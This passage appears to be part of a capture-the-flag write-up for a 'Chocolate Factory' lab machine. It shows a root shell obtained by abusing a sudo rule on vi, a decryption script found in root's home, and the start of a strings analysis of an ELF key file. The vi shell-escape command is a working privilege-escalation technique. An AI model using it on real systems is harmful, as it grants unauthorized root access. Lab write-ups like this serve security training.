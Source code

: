 User charlie may run the following commands on chocolate-factory:
    (ALL : !root) NOPASSWD: /usr/bin/vi
```

```
charlie@chocolate-factory:/home/charlie$  sudo vi -c ':!/bin/sh' /dev/null

# whoami
root
#
```

```
# ls
root.py
# cat root.py
from cryptography.fernet import Fernet
import pyfiglet
key=input("Enter the key:  ")
f=Fernet(key)
encrypted_mess= 'gAAAAABfdb52eejIlEaE9ttPY8ckMMfHTIw5lamAWMy8yEdGPhnm9_H_yQikhR-bPy09-NVQn8lF_PDXyTo-T7CpmrFfoVRWzlm0OffAsUM7KIO_xbIQkQojwf_unpPAAKyJQDHNvQaJ'
dcrypt_mess=f.decrypt(encrypted_mess)
mess=dcrypt_mess.decode()
display1=pyfiglet.figlet_format("You Are Now The Owner Of ")
display2=pyfiglet.figlet_format("Chocolate Factory ")
print(display1)
print(display2)
print(mess)
```


## Key file

There was a file called key_rev_key on the html dir

```
charlie@chocolate-factory:/var/www/html$ ls
home.jpg  home.php  image.png  index.html  index.php.bak  key_rev_key  validate.php
```

### Using strings on the file

It is an elf file

```                                       
┌──(kali㉿kali)-[~/Desktop/ChocolateFactory]
└─$ file key_rev_key 
key_rev_key: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=8273c8c59735121c0a12747aee7ecac1aabaf1f0, not stripped
```

```
┌──(kali㉿kali)-[~/Desktop/ChocolateFactory]
└─$ strings key_rev_key       
/lib64/ld-linux-x86-64.so.2
libc.so.6
__isoc99_scanf
puts
__stack_chk_fail